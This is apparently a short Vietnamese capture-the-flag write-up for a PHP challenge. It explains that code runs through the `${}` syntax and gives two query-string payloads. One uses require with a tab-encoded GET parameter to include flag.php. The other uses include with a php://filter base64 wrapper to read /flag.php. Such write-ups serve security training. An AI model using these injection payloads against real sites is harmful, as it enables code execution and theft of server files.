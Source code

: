 # Solution

Ta có thể thực thi php code với syntax `${}`

Payload:

`?q=${require%09$_GET[0]}${flag}&0=flag.php`

hoặc

`?q={${include$_GET[a]}}&a=php://filter/read=convert.base64-encode/resource=/flag.php`